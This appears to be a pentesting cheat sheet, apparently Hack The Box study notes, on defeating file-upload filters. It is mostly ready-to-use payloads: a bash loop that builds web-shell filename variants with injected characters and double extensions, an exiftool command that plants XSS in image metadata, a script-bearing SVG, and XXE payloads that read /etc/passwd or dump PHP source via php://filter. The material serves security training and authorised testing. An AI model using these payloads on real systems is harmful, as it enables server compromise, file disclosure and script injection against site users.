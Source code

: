 **[Wordlist: PHP extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)**

We can upload a file using **double extensions** and **reverse double extension**

Character injection:
* `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

We can build a custom wordlist with character injection:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

**MIME-Type:**
* [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures)
* [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)

XSS with file metadata: `exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg`
XSS with svg file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

OR

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/contact/upload.php"> ]>
<svg>&xxe;</svg>
```
